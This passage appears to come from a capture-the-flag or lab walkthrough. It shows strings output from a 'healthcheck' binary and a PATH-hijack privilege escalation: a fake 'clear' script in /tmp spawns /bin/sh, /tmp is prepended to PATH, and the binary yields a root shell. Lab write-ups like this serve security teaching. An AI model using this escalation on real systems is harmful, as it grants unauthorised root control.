 ```bash
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```
When running strings it can be seen that the application calls a number of different utilities to print information about the system to the screen. Since these utilities are not specified with full paths, it should be possible to hijack the path and gain code execution.

### 7. Escalate to root
Working out of the /tmp directory - firstly create a small script that calls /bin/sh, called "clear". Give it execution permissions, and add the /tmp path onto the end of the PATH environment variable. Then just call the binary to elevate to root.
```bash
[medical@localhost tmp]$ cat << EOF > clear
> #!/bin/sh
> /bin/sh
> EOF
[medical@localhost tmp]$ chmod +x clear
[medical@localhost tmp]$ ls -l clear
-rwxrwxr-x 1 medical medical 18 Jun  5 05:16 clear*
[medical@localhost tmp]$ export PATH=/tmp:$PATH
[medical@localhost tmp]$ echo $PATH
/tmp:/bin:/usr/bin:/usr/local/bin:/usr/bin/X11:/usr/games:/usr/lib/qt4/bin:/home/medical/bin
[medical@localhost tmp]$ /usr/bin/healthcheck
sh-4.1# whoami
root
```